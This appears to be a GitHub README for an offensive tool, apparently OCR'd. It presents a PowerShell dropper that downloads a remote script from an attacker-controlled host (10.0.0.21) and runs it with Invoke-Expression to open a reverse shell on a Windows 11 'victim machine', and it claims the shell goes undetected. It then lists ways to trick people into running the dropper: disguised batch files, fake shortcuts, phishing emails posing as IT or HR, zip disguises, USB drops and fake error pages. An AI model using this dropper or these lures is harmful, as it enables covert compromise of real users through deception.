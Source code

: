 By runnning the following dropper on the Windows 11 victim machine you can obtain a reverse shell that remains undetected (25/14/6)!


$wc = New-Object System.Net.WebClient

$code = $wc.DownloadString("http://10.0.0.21/lsass.ps1")

Invoke-Expression $code 

Note - update the web address in the $code variable, and in the script itself. 

Here are a few ways you can have someone run the dropper:

📄 Batch File Wrapper

Wrap the PowerShell dropper in a .bat file and name it something like OpenMe.bat, ActivateLicense.bat, or FixErrors.bat.

🔁 Rename as a Shortcut File (.lnk)

Use a shortcut icon that looks like a folder or document, but the shortcut runs PowerShell silently.

📧 Email Attachment or Link

Send an email pretending to be IT, HR, or customer support:
“Run this tool to fix an issue with your account”

📦 Zip File Disguise

Place the .bat or .ps1 inside a .zip with names like Invoice_Tool.zip, GamePatch.zip, or Resume_Viewer.zip.

💾 USB Drop Attack

Leave a USB drive labeled "Photos", "Payroll Info", etc., with an autorun.bat or enticing file.

📝 Fake Error Message + Instructions

Social engineer the user into copy/pasting a PowerShell command into their terminal (e.g., from a fake webpage or chat support).

🖱️ Right-Click Instructions

Provide instructions like "Right click the file and choose 'Run with PowerShell'" to bypass .ps1 execution restrictions.
